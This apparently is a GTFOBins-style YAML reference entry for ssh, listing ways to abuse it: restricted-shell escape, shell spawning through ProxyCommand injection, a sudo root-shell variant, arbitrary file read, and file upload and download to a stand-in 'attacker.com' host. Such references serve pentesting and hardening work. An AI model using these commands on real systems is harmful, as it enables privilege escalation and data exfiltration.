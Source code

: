 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand=';sh 0<&2 1>&2' x
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=file_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
  sudo-enabled:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
---
```

